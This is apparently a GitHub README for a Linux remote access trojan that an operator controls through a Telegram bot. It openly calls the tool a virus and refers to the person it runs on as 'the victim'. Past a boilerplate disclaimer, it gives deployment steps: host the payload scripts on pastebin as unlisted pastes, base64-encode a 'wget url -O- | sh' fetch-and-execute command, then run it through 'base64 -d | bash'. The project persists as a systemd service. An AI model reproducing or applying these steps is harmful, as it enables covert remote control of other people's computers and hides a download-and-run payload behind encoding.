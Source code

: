 # linuxRAT-tgBot 🖤🐧
<sub>ignore the program's output during boot</sub>
##### Disclaimer ⚠️
- Neither the project nor its developer promote any kind of illegal activity and are **not** responsible for any misuse or damage caused by this project.
- This project is for the purpose of penetration **testing only**.
- Please do **not** use this tool on other people's devices without their permission.
- Do **not** use this tool to harm others.
- Use this project responsibly on your own devices **only**.
- It is the end user's **responsibility** to obey all applicable local, state, federal, and international laws.
- This software is meant for educational purposes only. I'm **not** responsible for any malicious use of the app.
- I'm **not** responsible for any malicious use of the app.

# Features 🔥
- this is a remote access virus (so-called RAT);
- the victim does not need a white IP ✨;
- management is carried out using a telegram bot;
- you just need to put the data in a configuration file and upload it all to [pastebin](https://pastebin.com/);
- easy to use

# Requirements 👀
+ python3
    + aiogram==3.0.0b6
    + requests
+ bash commands
    + WGET
	+ CURL
    + imagemagick (not necessarily)
	+ cd
	+ systemct ( systemd🐧 )
	+ sleep (not necessarily)
	+ echo (not necessarily)
	+ if 
	+ then
	+ mkdir
	+ apt (not necessarily)
	+ clear (not necessarily)
+ internet
+ linux!

# Install  🥷🏽
Well, let's start!
I use pastebin, you can use any text paste tool on the web.

1)Setup the bot's config:
1.1) Copy all code from this [site](https://raw.githubusercontent.com/dentuwu/linuxRAT-tgBot/main/kernel.py).
1.2) Paste this code in pastebin.com
1.3) In the TOKEN ribbon, enter your bot token.
1.4) In the ADMINS ribbon, enter the administrator's ID (listing the user's id in commas), so that only they can use the bot, the id can be taken in [this bot](t.me/myidbot).
1.5) In the TIMEOUT ribbon, enter a timeout, if the command takes a long time to execute, it will be aborted after n (default 45) seconds.

2) You should have it in the settings:
+ Paste Expiration: 1 Week (recommended).
+ Paste Exposure: Unlisted (so other users don't see your token and id).

You should get it:

 ![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/code.jpg "code kernel.py") 
 
![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/optional-paste-settings.jpg "settings paste")

2.1) **Touch** button "Create New Paste".
3) Click on raw, and **save** the received link: 

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/raw.jpg "rickroll")

4) Setup the install.sh config
4.1) Copy all code from this [site]https://github.com/dentuwu/linuxRAT-tgBot/raw/main/install.sh).
4.2) Paste this code in pastebin.com
4.3) In the URL_KERNEL_PY ribbon, enter the link obtained in point 3.

![](https://github.com/dentuwu/linuxRAT-tgBot/raw/main/README-images/url-kernel-py.jpg "url kernel py")

4.4) If possible, do the same with URL_KERNEL_SERVICE,
URL_NO_ROOT_KERNEL_SERVICE, services are at [this link](https://github.com/dentuwu/linuxRAT-tgBot/tree/main/services), it is **not necessary**.
4.5) Repeat the points 2.1 and 3.

##### Using
Open a new terminal, and write this code :
```bash
 echo "wget url  -O- | sh" | base64
```
Instead of **url**, there should be a link obtained in point 4.5

You received something like this output - cmlja3JvbGwK, copy it and formulate a ready-made command to download the script and run it:

```bash
 echo output | base64 -d | bash
```

Run this command (on your devices only)!


## Tested
**this is script tested on:**
* Ubuntu 22.04 LTS



